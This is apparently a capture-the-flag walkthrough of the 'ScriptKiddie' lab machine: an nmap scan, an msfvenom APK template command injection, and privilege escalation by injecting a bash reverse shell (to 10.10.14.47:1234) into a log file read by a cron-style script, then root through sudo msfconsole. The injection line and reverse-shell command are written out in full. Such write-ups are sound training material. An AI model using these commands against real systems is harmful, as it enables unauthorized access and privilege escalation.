







# ScriptKiddie

`nmap -sV 10.10.10.226`

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold



There is an option to generate an MSFVenom payload, using a template file.

Searchsploit for any relevant exploits:



POC code for APK template file command injection vulnerability:

[https://github.com/justinsteven/advisories/blob/master/2020\_metasploit\_msfvenom\_apk\_template\_cmdi.md\#poc](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md#poc)

Upload the produced APK file as the template.



'Upgrade' the shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`



## Privesc

Exploring the folders a bit more, there is a `pwn` user, and there is a `scanlosers` script.



Note the `cut -d' ' -f3-'`: refer to the manual page [https://man7.org/linux/man-pages/man1/cut.1.html](https://man7.org/linux/man-pages/man1/cut.1.html)

This will split the string based on the 'space' delimiter, and keep everything from the 3rd field onwards. By adding two spaces to the front, we are splitting the string into: `"" <space> "" <space> ";/bin/bash -c ..."` so that the command is retained.

`echo " ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.47/1234 0>&1' #" >> /home/kid/logs/hackers`

Set up a netcat listener again. Now, we got a shell as the `pwn` user, with higher privileges.

Check the available sudo commands as the pwn user: `sudo -l`



We are able to run `msfconsole` as root!



Since msfconsole is able to execute standard commands as well, simply doing `sudo msfconsole` will give us a shell as root.


